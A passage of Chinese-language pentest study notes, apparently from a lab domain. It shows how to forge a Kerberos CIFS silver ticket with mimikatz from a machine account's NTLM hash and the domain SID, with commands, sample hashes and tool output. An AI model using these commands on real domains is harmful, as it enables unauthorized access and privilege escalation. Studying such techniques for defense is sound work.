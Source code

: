         我们所需的是`1001	OWA$	5f7687a3b909b00386ca167919e883d1	532480` 这个是域控主机的，不过这样就可以拿到`krbtgt`的`HASH`来制作金票了
        
    - 或者枚举出管理员账户等
2. 域名以及SID等
    
    ```python
    C:\Users\Administrator>whoami /all
    
    用户信息
    ----------------
    
    用户名            SID
    ================= =============================================
    god\administrator S-1-5-21-2952760202-1353902439-2381784089-500
    ```
    
    域名：`god.org`
    
3. 可利用的服务，有很多
    
    通常是`cifs` ，用于和主机文件共享（IPC）
    
    `LDAP` ，可以实现ldap查询或者执行`dcsync` ，可用于获得账户密码信息
    
4. 制作`cifs`服务白银票据
    
    可以使用mimikatz线上或者线下，或者离线制作
    
    - `mimikatz` 制作`cifs`服务白银票据
        
        ```python
        kerberos::golden /domain:域名 /sid:SID /target:目标机器 /service:服务名 /rc4:NTLM-HASH /user:administrator /ptt
        /ptt：加上制作后默认直接打入内存中，不会生成文件
        ```
        
        使用上边的信息制作
        
        ```python
        mimikatz # kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /service:cifs /rc4:5f7687a3b909b00386ca167919e883d1 /user:administrator
        User      : administrator
        Domain    : god.org (GOD)
        SID       : S-1-5-21-2952760202-1353902439-2381784089
        User Id   : 500
        Groups Id : *513 512 520 518 519 
        ServiceKey: 5f7687a3b909b00386ca167919e883d1 - rc4_hmac_nt      
        Service   : cifs
        Target    : owa.god.org
        Lifetime  : 2024/11/22 15:06:57 ; 2034/11/20 15:06:57 ; 2034/11/20 15:06:57
        -> Ticket : ticket.kirbi
        
         * PAC generated
         * PAC signed
         * EncTicketPart generated
         * EncTicketPart encrypted
         * KrbCred generated
        